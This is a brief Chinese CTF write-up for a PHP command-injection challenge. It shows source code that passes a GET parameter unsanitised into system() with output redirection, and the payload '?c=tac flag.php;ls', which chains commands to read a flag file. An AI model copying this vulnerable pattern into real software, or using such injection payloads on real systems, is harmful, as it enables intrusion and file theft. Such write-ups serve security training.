

# 知识点
# [/dev/null 2>&1详解](https://www.cnblogs.com/tinywan/p/6025468.html)
# 思路
##### 372619038
源代码
```bash
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
?c=tac flag.php;ls
```

